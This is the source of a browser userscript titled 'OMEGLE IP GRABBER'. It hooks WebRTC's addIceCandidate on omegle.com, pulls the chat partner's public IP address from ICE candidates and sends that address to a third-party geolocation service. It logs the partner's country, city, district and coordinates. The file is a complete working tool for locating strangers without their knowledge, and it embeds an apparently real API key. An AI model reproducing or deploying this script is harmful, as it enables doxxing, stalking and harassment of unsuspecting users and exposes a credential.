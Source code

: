 // ==UserScript==
// @name         OMEGLE IP GRABBER
// @version      1
// @author       dclightningtv
// @match        https://www.omegle.com/*
// @icon         https://www.google.com/s2/favicons?domain=omegle.com
// @grant        none
// ==/UserScript==

(function() {
    'use strict';

const apiKey = "9bbaca38ecd64f3082475f865fc90097";

window.oRTCPeerConnection =
    window.oRTCPeerConnection || window.RTCPeerConnection;

window.RTCPeerConnection = function (...args) {
    const pc = new window.oRTCPeerConnection(...args);

    pc.oaddIceCandidate = pc.addIceCandidate

    pc.addIceCandidate = function(iceCandidate, ...rest) {
        const fields = iceCandidate.candidate.split(" ");
        const ip = fields[4];
        if (fields[7] === "srflx") {
            getLocation(ip);
        }
        return pc.oaddIceCandidate(iceCandidate, ...rest)
    };
    return pc;
};

const getLocation = async (ip) => {
    let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;

    await fetch(url).then((response) =>
        response.json().then((json) => {
            const output = `
        -----------------------
        Country: ${json.country_name}
        State: ${json.state_prov}
        City: ${json.city}
        IP: ${json.ip}
        District: ${json.district}
        Lat / Long: (${json.latitude}, ${json.longitude})
        -----------------------
        `;
            console.log(output)
        })
    );
}
})();
